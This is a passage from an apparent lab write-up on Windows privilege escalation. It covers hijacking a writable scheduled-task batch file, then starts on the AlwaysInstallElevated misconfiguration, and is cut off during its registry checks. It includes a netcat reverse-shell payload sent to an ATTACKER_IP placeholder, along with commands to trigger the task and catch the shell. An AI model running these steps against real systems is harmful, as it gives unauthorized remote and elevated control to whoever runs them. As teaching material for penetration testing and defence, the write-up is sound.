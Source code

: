     ```powershell
    icacls "C:\path\to\task\file.bat"
    ```
    
    If your user has **F (Full Control)** or **M (Modify)**, you can overwrite it.
    
    <img width="761" height="177" alt="Screenshot 2025-08-13 144203" src="https://github.com/user-attachments/assets/e742e460-8725-4460-8220-145c7a079344" />
    
3. **Replace with Malicious Payload:**
    
    ```powershell
    echo C:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\path\to\task\file.bat
    ```
    
    Or use a **reverse shell** (e.g., PowerShell, msfvenom).
    
4. **Trigger the Task (or Wait):**
    
    ```powershell
    schtasks /run /tn "TaskName"
    ```
    
    If you can’t run it manually, wait for the scheduled time.
    
    <img width="1285" height="178" alt="Screenshot 2025-08-13 144800" src="https://github.com/user-attachments/assets/5a70276e-0edc-4e4f-8090-734a8bcff673" />

5. **Catch the Shell:**
    
    ```powershell
    nc -lvnp 4444
    ```
    
    You’ll get a shell as the user running the task (**taskusr1** in the example).
    
<img width="758" height="367" alt="Screenshot 2025-08-13 144847" src="https://github.com/user-attachments/assets/472e1a8a-7a1d-4715-b252-854b4c1a82b9" />

### **AlwaysInstallElevated (MSI Files as Admin)**

**MSI (Microsoft Installer Package)** is a Windows file format used to install software. Typically runs with the **permissions of the user launching it** (unless configured otherwise).

**Scenario:** Windows allows **any user** to install **`.msi`** files as **SYSTEM/Admin** due to misconfigurations.

**Requirements:**

- **Two registry keys must be set (1 = Enabled):**
    
    ```powershell
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    ```
    
    - If **both return `0x1`**, exploitation is possible.
    
     <img width="1037" height="246" alt="Screenshot 2025-08-13 145021" src="https://github.com/user-attachments/assets/61ec8693-8b7a-4be3-8756-dc762e15bae0" />
    
